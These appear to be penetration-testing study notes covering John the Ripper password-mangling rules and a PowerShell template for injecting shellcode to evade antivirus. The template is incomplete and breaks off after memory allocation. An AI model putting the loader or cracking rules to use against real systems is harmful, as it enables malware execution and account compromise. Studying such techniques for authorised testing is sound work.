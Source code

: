 # Password Rules
- Create `password.rule` file, eg.
```
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
	- Rules are applied by line from left to right in the `demo.rule` file
		- `$1 c` will capitalise the first letter AND adds `1` to the end (eg. `Password1`)
		- `$1` adds 1 to the end (eg. `password1`)
		  `c` Capitalises the same password (eg. `Password`)
	- Examples
		- `$1 c $!` mutates `password` into `Password1!`
		- `$! c $1` mutates `password` into `Password!1`
		- `$1 $2 $3 c $!` mutates `password` into `Password123!`
- Append `password.rule` to JtR's `.config` file: `sudo sh -c 'cat /home/user/Downloads/password.rule >> /etc/john/john.conf'`

| **Name**          | **Function** | **Description**                                | **Example Rule** | Output from `p@ssW0rd` |
| ----------------- | ------------ | ---------------------------------------------- | ---------------- | ---------------------- |
| Nothing           | :            | Do nothing                                     | :                | p@ssW0rd               |
| Lowercase         | l            | Lowercase all letters                          | l                | p@ssw0rd               |
| Uppercase         | u            | Uppercase all letters                          | u                | P@SSW0RD               |
| Capitalize        | c            | Capitalize the first letter and lower the rest | c                | P@ssw0rd               |
| Append Character  | $X           | Append character X to end                      | $1               | p@ssW0rd1              |
| Prepend Character | `^X`         | Prepend character X to front                   | `^1`             | 1p@ssW0rd              |
| Replace           | sXY          | Replace all instances of X with Y              | ss$              | p@$$W0rd               |
| Duplicate         | d            | Duplicate password                             | d                | p@ssW0rdp@ssW0rd       |
# Evading Antivirus
Thread Injection on Windows
- Use template below
```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
```